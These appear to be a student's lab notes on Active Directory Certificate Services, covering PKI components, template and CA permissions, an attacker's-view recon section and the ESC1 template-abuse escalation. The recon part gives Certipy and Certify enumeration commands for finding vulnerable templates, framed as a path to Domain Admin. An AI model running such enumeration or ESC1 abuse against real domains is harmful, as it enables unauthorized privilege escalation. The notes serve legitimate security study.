

## Components

- **Certificate Authority (CA):** the core component — issues, revokes, and manages digital certs. The trusted entity that signs everything.
- **Certificate Template:** defines the properties and policies of certs issued by the CA (who can enroll, what the cert can be used for, validity period). This is also the component most commonly abused for privilege escalation when misconfigured (e.g., ESC1-style vulnerabilities).
- **Certificate Authority Web Enrollment:** an optional role that lets clients request certs through a web interface instead of only through native enrollment methods.
- **Certificate Revocation List (CRL):** a list published by the CA naming certs that are no longer valid and must not be trusted anymore (e.g., compromised key, decommissioned device).
- **Certificate Distribution Point (CDP):** the location (URL or path) where clients go to retrieve the CRL, so they can check whether a given cert has been revoked before trusting it.

## Quick Mental Model

Template says **what's allowed** → CA **signs and issues** based on that → if something goes wrong, CA **revokes** and publishes it to the CRL → CDP is **where everyone checks** to make sure a cert hasn't been revoked.

# AD CS Demo — Inspecting the PKI, Templates & Permissions

## 1. Inspect the Enterprise PKI

**Command:** `pkiview.msc`

Opens the Enterprise PKI MMC console — shows enterprise CA info and verifies certificate-chain / revocation publication locations.

Demo's CA: `telco-PKI-srv-CA`

| Term | Meaning |
|---|---|
| **CA certificate** | Identifies the CA, contains its public key. Check validity period and trust chain. |
| **AIA** (Authority Information Access) | Where clients get issuer certificate info and (depending on the cert) OCSP responder info. |
| **CDP** (CRL Distribution Point) | Where clients retrieve the CRL. |
| **CRL** | Signed list of certs revoked before their expiration. |
| **Status** | Whether the relevant cert/location is accessible and valid per the check performed. |

> **Remember:** a cert can still be within its validity period and yet be revoked. AIA and CDP are how clients build the chain and check revocation.

## 2. Where AD CS Actually Lives

AD CS is tightly integrated with AD, but not everything sits on the DC.

| Location | Holds |
|---|---|
| **Active Directory** | Enterprise CA configuration objects, certificate templates |
| **CA server** | CA's private key, certificate database, service configuration |
| **AIA/CDP locations** | Can be AD, HTTP, file shares, or other configured locations |

The CA **does not** need to run on a domain controller — it can (and often should, for security/admin separation) run on a separate domain-joined server.

## 3. Inspect Certificate Templates

**Command:** `certsrv.msc` → `Certification Authority → telco-PKI-srv-CA → Certificate Templates`

Shows templates the CA is configured to issue. **Manage** opens the Certificate Templates console for inspecting definitions.

A **certificate template** = rules defining what kind of cert is issued, to whom, under what conditions. Stored in AD DS, usable by any Enterprise CA in the forest.

### Extended Key Usage (EKU) / Application Policies

Identifies intended certificate purposes:

| EKU | Enables |
|---|---|
| **Client Authentication** | Certificate-based client auth |
| **Server Authentication** | Server auth, commonly TLS |
| **Secure Email** | Cert-based email signing/encryption |
| **Encrypting File System (EFS)** | Cert-based file encryption |
| **Code Signing** | Digitally signing code |

The default **User** template supports client auth, EFS, and secure email.

> **Why Client Authentication matters:** a misconfigured template could let an unauthorized user get a cert representing another identity. But the EKU alone isn't the vulnerability — template permissions, subject-name controls, trust, and identity mapping all matter together.

## 4. Inspect Certificate Permissions

Two **separate** permission layers — don't confuse them.

### A. Permissions on the CA

| Permission | Meaning |
|---|---|
| **Read** | Read CA information |
| **Request Certificates** | Submit requests to the CA (subject to template/issuance rules) |
| **Issue and Manage Certificates** | Certificate-manager role: issue/deny pending requests, revoke certs |
| **Manage CA** | Full administrative control, including key config changes |

Microsoft separates the **certificate-manager** role from the broader **CA-administrator** role.

> In this lab, Domain Admins and other privileged groups hold powerful CA permissions — treat that as this installation's specific config, not a universal default.

### B. Permissions on the Certificate Template

| Permission | Meaning |
|---|---|
| **Read** | View the template |
| **Enroll** | Request a cert using the template |
| **Autoenroll** | Get certs automatically when configured |
| **Write / Full Control** | Modify the template |

For normal enrollment: requester needs Read + Enroll on the template, **and** the CA must publish that template, **and** the CA must be able to read it.

> Even if Authenticated Users can submit requests to the CA, that doesn't mean they can request *every* template — template permissions and issuance requirements still gate it.

## 5. Why Compromising These Permissions Matters

| Compromised permission | Consequence |
|---|---|
| **Request Certificates** | Submit requests the CA/template allow |
| **Enroll on a risky template** | Get certs with unintended auth/other capabilities |
| **Issue and Manage Certificates** | Approve/issue pending requests, revoke certs |
| **Manage CA** | Change significant settings, undermine issuance controls |
| **Write access to a sensitive template** | Modify config, weaken enrollment/identity controls |

**Example chain:** attacker modifies a template that allows client auth **and** unsafe requester-controlled identity info → obtains a cert authenticating as another identity. This is the general idea behind several AD CS template escalation vulnerabilities (e.g., ESC1-style).

## Permission Layers Overview



## Key Takeaway

- **Template** defines what can be issued.
- **Template ACLs** define who can enroll/modify it.
- **CA permissions** define who can administer the authority or manage issuance.

The dangerous condition is usually the **combination**: a risky template + excessive permissions + weak issuance controls — not AD CS's mere presence.


# AD CS Integration with AD — Attacker's View

## Overview

AD CS data is spread across three separate systems. Each check below tells an attacker something different — none of them alone gives a foothold, but together they build the full picture needed to find an abusable template.



---
dsc.msc : the Microsoft Management Console (MMC) snap-in file for **Active Directory Users and Computers (ADUC)**, a primary graphical tool for managing users, groups, computers, and organizational units in an on-premises Active Directory domain.

ADSI Edit (`adsiedit.msc`) is a Microsoft Management Console snap-in that lets you view and edit Active Directory objects and attributes at a low level, using the LDAP protocol. “ADSI” stands for Active Directory Service Interfaces.
**What it’s for**
Tools like Active Directory Users and Computers (ADUC) only expose the attributes Microsoft decided to show in the GUI. ADSI Edit shows everything: every object, every attribute, and every partition in the directory. It’s essentially a raw LDAP editor.

MMC : Microsoft Management Console

## 1. Verify the CA Server Is Domain-Joined

**Where to look (GUI):** `dsa.msc` → View → Advanced Features → locate the CA's computer object (e.g. `PKI-SRV`).

**Where to look (CLI/remote, no GUI needed):**
```powershell
Get-ADComputer -Filter {Name -like "*PKI*"} -Properties DNSHostName,OperatingSystem
```
or via `certutil`:
```cmd
certutil -config - -ping
```

**What it tells a hacker:** confirms a domain-joined CA server exists and gives you its hostname. That hostname is now a direct target — SMB/RDP enumeration, checking for a Kerberoastable SPN tied to the CA service, or just prioritizing it as a high-value box since it holds the CA's private key.

---

## 2. Inspect PKI Objects in AD (the recon goldmine)

**Where to look (GUI):** `adsiedit.msc` → Connect to **Configuration** naming context → navigate to:
```
CN=Configuration
└── CN=Services
    └── CN=Public Key Services
        ├── CN=AIA
        ├── CN=CDP
        ├── CN=Certificate Templates
        ├── CN=Certification Authorities
        ├── CN=Enrollment Services
        └── CN=NTAuthCertificates
```

**Where to look (CLI — no admin rights needed, works from any domain user):**
```cmd
# Enumerate Enterprise CAs
certutil -config - -ping
certutil -TCAInfo

# Enumerate certificate templates
certutil -Template
```

**Where to look (offensive tooling — the standard approach):**
```bash
# Certipy (Linux)
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.5 -vulnerable
```
```powershell
# Certify (Windows)
.\Certify.exe find /vulnerable
```
Both tools read directly from these AD CS containers and automatically flag misconfigured templates — this is the real-world equivalent of manually browsing ADSI Edit.

### What each container means to a hacker

| Container | Attacker value |
|---|---|
| **Enrollment Services** | Reveals CA name + hostname without needing local access — your starting point for any enumeration tool. |
| **Certificate Templates** | **The main target.** Every template definition in the forest is here. Scan for misconfigurations: client-auth EKU + enrollee-supplies-subject + low-priv enroll rights = request a cert impersonating anyone, including Domain Admin (classic ESC1). Weak ACLs on a template (Write/FullControl to low-priv users) = ESC4-style abuse by editing the template itself. |
| **NTAuthCertificates** | Shows which CAs are actually trusted for domain authentication. Relevant if you've compromised or stood up a rogue CA and want to know if it can be used for logon — or if you have rights to add an entry here yourself (persistence angle). |
| **AIA / CDP / Certification Authorities** | Low direct attacker value — mostly chain-building and revocation info, useful for understanding trust relationships but not a direct exploitation path. |

> **Key fact:** these containers are usually readable by any authenticated (sometimes unauthenticated) domain user by default — this is why AD CS enumeration is typically one of the first things run after getting any foothold.

---

## 3. Check Local Certificate Trust

**Where to look (GUI):** `mmc.exe` → Add Snap-in → Certificates → Computer account → Local computer → **Trusted Root Certification Authorities** (and **Intermediate Certification Authorities**).

**Where to look (CLI):**
```powershell
Get-ChildItem Cert:\LocalMachine\Root
Get-ChildItem Cert:\LocalMachine\CA
```

**What it tells a hacker:** whether a given CA's certificate will be accepted without warnings on this machine. Matters mainly if you're trying to get a forged/malicious certificate accepted silently (e.g., after compromising a CA or performing a Golden Certificate-style attack) — by itself this check grants nothing and isn't a foothold.

---

## Exploitation Summary

| Check | Gets you | Exploitation value |
|---|---|---|
| `dsa.msc` | CA server identity | Target prioritization only |
| `adsiedit.msc` → Templates | Full list of template rules | **High** — direct path to ESC1/ESC4-style privilege escalation |
| `adsiedit.msc` → NTAuthCertificates | Which CAs are trusted for auth | Medium — relevant for rogue CA / persistence |
| MMC Trusted Root | Local trust status | Low alone — supporting condition for forged-cert attacks |

## The One Thing to Remember

The real money is in **Certificate Templates**. Everything else is context-gathering. A misconfigured template — combined with weak enrollment permissions — is what turns AD CS from "just a PKI" into a privilege escalation path straight to Domain Admin.

---


# AD CS Integration with Active Directory

> [!abstract] Goal
> Prove that the Certificate Authority (AD CS) is wired into the domain, so domain users, computers, and service accounts can request certificates and use them for authentication, signing, and secure email.

**Lab:** CA server = `PKI-SRV`, CA name = `Telco-PKI-SRV-CA`, work done on the Domain Controller.

---

## Overview



---

## Check 1: Is the CA server domain-joined?

**Tool:** Active Directory Users and Computers (`dsa.msc`)

1. Server Manager → Tools → ADUC
2. **View → Advanced Features** (reveals hidden containers)
3. Find computer object `PKI-SRV` in the servers OU

> [!note] Why
> An Enterprise CA must be a domain member so it can publish to and read from AD.

---

## Check 2: Where does AD CS store its data?

**Tool:** ADSI Edit (`adsiedit.msc`)

1. Right-click ADSI Edit → Connect to → **Configuration**
2. Expand **Services → Public Key Services**



> [!note] Why
> The Configuration partition replicates to every DC in the forest, so all DCs and clients learn about the CA and its templates automatically.

---

## Check 3: Is the CA trusted for authentication?

**Tool:** MMC → Add Snap-in → **Certificates** → Computer account → Local computer

1. Open **Trusted Root Certification Authorities → Certificates**
2. Confirm the Telco PKI root CA is listed
3. Also check **Intermediate Certification Authorities** for subordinate CAs

> [!note] Why
> Certificate logon (PKINIT) only works if the DC trusts the issuing CA.

---

## Request flow once integrated



---

## Summary

| # | Requirement | Verified with |
|---|---|---|
| 1 | CA server is a domain member | ADUC |
| 2 | CA info, templates, and services stored in AD | ADSI Edit, Configuration |
| 3 | CA certificate in trusted root store | MMC, Certificates |

> [!tip] Extras
> - Check 3 is usually automatic with an Enterprise CA (published to AD, pushed via Group Policy).
> - Verify logon trust: `certutil -viewstore -enterprise NTAuth`
> - CA health view: `pkiview.msc`
> - All three checks are read-only. Browse only, never edit in ADSI Edit unless you know why.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| AD | Active Directory | Directory service storing users, computers, groups |
| AD CS | Active Directory Certificate Services | Role that issues and manages certificates |
| ADSI | Active Directory Service Interfaces | Interfaces for accessing directory objects |
| ADSI Edit | ADSI Editor | Low-level editor (`adsiedit.msc`) for raw AD objects |
| ADUC | Active Directory Users and Computers | Everyday GUI (`dsa.msc`) for users, groups, OUs |
| AIA | Authority Information Access | Holds CA certs used to build the trust chain |
| CA | Certification Authority | Server that issues and signs certificates |
| CDP | CRL Distribution Point | Tells clients where to get revocation lists |
| CN | Common Name | Naming attribute in LDAP paths, e.g. `CN=Services` |
| CRL | Certificate Revocation List | List of certificates revoked before expiry |
| DC | Domain Controller | Server running AD and authenticating users |
| LDAP | Lightweight Directory Access Protocol | Protocol ADSI Edit uses to talk to the directory |
| MMC | Microsoft Management Console | Framework hosting snap-ins |
| MSC | Microsoft Saved Console | `.msc` file extension for saved consoles |
| NTAuth | NT Authentication (store) | Store of CAs trusted for logon, used by DCs for smartcards |
| OU | Organizational Unit | AD container for organizing objects |
| PKI | Public Key Infrastructure | CAs, certificates, templates, and trust together |
| PKINIT | Public Key Cryptography for Initial Authentication | Kerberos certificate logon instead of passwords |
| PKS | Public Key Services | AD container `CN=Public Key Services` holding PKI data |
| RSAT | Remote Server Administration Tools | Admin tools for non-server machines |
| SRV | Server | Naming suffix, as in `PKI-SRV` |

---
title: AD CS Use Cases and Certificate Request Workflow

# AD CS Use Cases and Certificate Request Workflow

> [!abstract] Goal
> Understand why AD CS is critical and how a normal certificate request works, so misconfigurations can be spotted and abused in later labs (ESC attacks).

---

## Why AD CS matters



| Use case | Meaning |
|---|---|
| Authentication | Certificates prove identity of users, computers, services (**abused in labs**) |
| Secure communication | Company issues its own certs to employees for TLS, IPsec |
| Signing | Proves code or documents come from a trusted source |
| High trust | Domain trusts the internal CA automatically; a malicious binary signed with a trusted cert may not be scanned |

---

## Actors

- **Client:** a user or computer requesting a certificate (teal in the diagrams)
- **Enterprise CA:** the server that validates and issues it, e.g. `PKI-SRV` (purple in the diagrams)

---

## Request workflow



### Steps

1. **Key pair:** client generates it; the private key stays on the client
2. **CSR:** client asks for a template (e.g. `CodeSign`), states the subject and the EKU (purpose), and sends the public key
3. **Validation:** the CA runs the checks below
4. **Signing:** the CA signs with its private key (stored on the CA server, not the DC)
5. **Delivery:** the certificate returns to the client
6. **Usage:** logon, code signing, TLS, whatever the EKU allows

### What the CA validates



Solid arrows are the normal path. Dashed arrows are the exceptions: a failed check leads to denial, and a required approval adds a wait before issuing.

> [!success] Lab proof
> Certification Authority console → CA → **Issued Certificates** shows the certificates issued earlier in the lab.

---

## Where it goes wrong

> [!danger] Misconfiguration point
> The validation step is where most weaknesses live. If a low-privilege user is allowed to enroll in a template that grants high privilege or access to a critical resource, the CA issues the cert, because by its rules the request is legitimate.


---
 
## Key takeaways

- A certificate is an identity, and a wrongly issued one can be as powerful as a stolen password
- The CA trusts its own rules, so a bad template or permission leads to a bad certificate
- The CA private key is the crown jewel: whoever holds it can sign anything the domain trusts

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| AD CS | Active Directory Certificate Services | Role that issues and manages certificates |
| AV | Antivirus | Endpoint malware scanner |
| CA | Certification Authority | Server that issues and signs certificates |
| CSR | Certificate Signing Request | Request containing template, subject, EKU, public key |
| EDR | Endpoint Detection and Response | Advanced endpoint security tooling |
| EKU | Extended Key Usage | Defines what a certificate may be used for |
| ESC | Escalation (AD CS attack series) | Named AD CS misconfiguration attacks (ESC1, ESC2, ...) |
| IPsec | Internet Protocol Security | Protocol suite for encrypted network traffic |
| PKI | Public Key Infrastructure | CAs, certificates, templates, and trust together |
| SSL/TLS | Secure Sockets Layer / Transport Layer Security | Encryption for web and other services |
| VPN | Virtual Private Network | Encrypted remote network access |


# AD CS Attacks: ESC1

> [!abstract] Goal
> Understand how a misconfigured certificate template lets a low-privileged user escalate to a high-privileged identity like Domain Admin.

**Lab:** template `TCO User`, attacker account `Tele Engineer 01`

---

## Where this fits

The CA validates a CSR against the template's rules (covered previously). ESC1 is what happens when the template's own rules are too permissive. It is an **ACL / configuration problem**, not a flaw in AD CS itself.

---

## The two conditions for ESC1



| Condition | Where to check | What it means |
|---|---|---|
| Supply in the request | Template → **Subject Name** tab | Requester sets their own SAN instead of AD pulling it from their account |
| Enroll permission | Template → **Security** tab | A low-privileged user/group has **Enroll** (not just Read) |

> [!tip] Lab checklist
> - Subject Name tab: "Supply in the request" checked, "Subject information from existing certificate" unchecked, "Build from this Active Directory information" unchecked
> - Security tab: look for any non-admin principal with **Enroll** rights (e.g. `Tele Engineer 01`)
> - Extensions tab: confirm **Client Authentication** is in the application policies — this is what makes the cert usable for logon

---

## Attack flow



---

## Why the certificate works for logon

> [!danger] Client Authentication EKU
> The template's Extensions include **Client Authentication** as an application policy. Any certificate issued from this template can be used to authenticate to the domain controller, not just for email or encryption. This is what turns a mis-issued certificate into a working credential.

---

## Key takeaways

- ESC1 needs **both** conditions: custom SAN allowed **and** broad Enroll rights. Either alone is not enough.
- The CA is doing its job correctly; the template is what's wrong.
- A seemingly low-privileged account with Enroll on a risky template is a direct path to Domain Admin.
- Client Authentication in the EKU is what makes the resulting certificate usable as a login credential.

---

## Defensive notes (not in the video, but relevant)

- Audit all templates for "Supply in the request" combined with broad Enroll permissions
